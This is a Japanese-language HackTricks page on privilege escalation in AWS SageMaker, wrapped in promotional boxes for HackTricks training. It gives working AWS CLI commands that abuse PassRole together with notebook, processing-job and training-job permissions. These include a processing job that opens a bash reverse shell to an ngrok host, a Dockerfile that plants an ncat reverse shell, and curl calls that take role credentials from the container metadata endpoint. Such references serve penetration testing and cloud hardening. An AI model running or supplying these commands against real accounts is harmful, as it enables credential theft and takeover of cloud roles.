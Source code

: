 # AWS - Sagemaker Privesc

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**する。
* **ハッキングトリックを共有するために、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出する。

</details>

## `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAMロールにアクセス権が付与されたノートブックを作成し始めます：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
以下は、新しく作成されたノートブックインスタンスのARNを含む`NotebookInstanceArn`フィールドを含む必要があります。その後、`create-presigned-notebook-instance-url` APIを使用して、準備ができたらノートブックインスタンスにアクセスするために使用できるURLを生成できます:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
ナビゲーションバーでURLに移動し、右上の「Open JupyterLab」をクリックし、次に「ランチャー」タブにスクロールして、「その他」セクションの下にある「Terminal」ボタンをクリックします。

これでIAMロールのメタデータ資格情報にアクセスできる可能性があります。

**潜在的な影響:** 指定されたsagemakerサービスロールへの権限昇格。

## `sagemaker:CreatePresignedNotebookInstanceUrl`

すでにJupyter **ノートブックが実行中**である場合、`sagemaker:ListNotebookInstances`を使用してそれらをリストアップできます（または他の方法でそれらを発見できます）。**それらのためのURLを生成し、アクセスし、前述のテクニックで資格情報を盗むことができます**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在的影響:** sagemaker サービスロールへの権限昇格。

## `sagemaker:CreateProcessingJob,iam:PassRole`

これらの権限を持つ攻撃者は、sagemaker がアタッチされた sagemaker ロールで処理ジョブを実行することができます。攻撃者は、実行されるコンテナの定義を示し、AWS 管理の ECS アカウントインスタンスで実行される可能性があり、アタッチされた IAM ロールの資格情報を盗むことができます。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在的影響:** 指定されたSagemakerサービスロールへの権限昇格。

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、トレーニングジョブを作成し、それに**アタッチされたロール**を持つ**任意のコンテナ**を実行できます。したがって、攻撃者はそのロールの資格情報を盗むことができます。

{% hint style="warning" %}
このシナリオは前のものよりも難しいため、トレーニングジョブの構成で開始コマンドを指定できないため、Dockerイメージを生成して、revシェルまたは資格情報を直接攻撃者に送信する必要があります。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在的影響:** 指定されたsagemakerサービスロールへの権限昇格。

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、**ハイパーパラメータチューニングジョブ**を作成し、それに**アタッチされたロール**で**任意のコンテナを実行**することができる可能性があります。\
_時間の不足のため未だ悪用していませんが、以前の脆弱性と似ているように見えます。悪用の詳細を送信してください。_

# 参考文献
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>**htARTE (HackTricks AWS Red Team Expert)**でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>こちら</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**してください。**
* **ハッキングトリックを共有するために、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

